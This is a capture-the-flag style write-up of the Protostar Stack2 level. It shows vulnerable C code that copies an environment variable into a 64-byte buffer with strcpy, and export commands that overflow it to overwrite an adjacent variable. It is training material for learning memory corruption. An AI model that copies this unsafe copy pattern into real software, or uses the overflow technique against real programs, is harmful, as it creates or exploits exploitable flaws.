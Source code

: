 # Stack2
## Briefing
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
## Solution
Ok, so just looking at this program we can see that the only way of getting input in is through the greenie environment variable.
The `strcpy(buffer, variable);` call is copying whatever is in the environment varible into the buffer, and if the buffer only has 64 bytes of memory then we can perform an attack similar to stack1, we just need a way of setting this environment variable.

Luckily the export command can help us do this.
`export GREENIE=$(python -c "print('A')")`

And then run the program, `./stack2`

`Try again, you got 0x00000000`

Ok, so we now can set the variable, great.
Now lets overwrite the variable again and see what happens

`export GREENIE=$(python -c "print('A' * 68)")`
`./stack2`

`Try again, you got 0x41414141`

Nice! now we can simply overwrite the variable, just like stack2, make sure to remember endianness!

`export GREENIE=$(python -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')")`
`./stack2`

`you have correctly modified the variable`

Complete! That was an interesing one!
